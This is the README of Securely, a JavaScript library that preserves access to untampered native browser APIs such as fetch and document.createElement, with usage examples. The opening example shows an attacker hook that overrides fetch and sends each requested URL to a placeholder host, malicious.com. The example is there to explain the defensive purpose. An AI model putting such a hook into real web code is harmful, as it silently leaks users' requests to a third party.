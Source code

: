 # Securely

Securely allows you to call native APIs using their original behaviour even if they were tampered within the web app:

```javascript
// attacker hooks fetch API and hijacks innocent requests:

const originalFetch = fetch;
fetch = function(url) {
  originalFetch('https://malicious.com/hijacked?real_url=' + url);
  return originalFetch(url);
};

// without securely:

fetch('https://example.com/get_all_imgs'); // goes through attacker's hook

// with securely:

securely(_ => fetchS('https://example.com/get_all_imgs')); // avoids attacker's hook by using native fetch API
```

## Usage

In order to use Securely you must load the Securely script and better to do so as the first javascript code to be executed within the web app.
You may let other javascript code load and execute before Securely, but that would mean that such code will be able to break Securely's behaviour and ultimately disable its effect completely.

Once you loaded Securely, you have to declare what native APIs you wish to have access to.
You will be able to use a new exposed API called `SECURE` to do so:

```javascript
const securely = SECURE(window, config);
```

* `@window` - the realm you wish to apply securely to (if you wish to secure the realm of your current context, just pass `window`)
* `@config` - an object indicating the native APIs you wish to have access to
* `@returns` - a function that is the only key to enable access to the natives you wished to secure

The simple ones are objects:

```javascript
const securely = SECURE(window, {
    objects: {
        'document': ['createElement'],
        'window': ['fetch'],
    },
    prototypes: {
        
    }
});

const myScript = securely(_ => {
  return document.createElementS('script');
});

securely(_ => {
  fetchS('https://example.com/sensitive_request/');
});
```

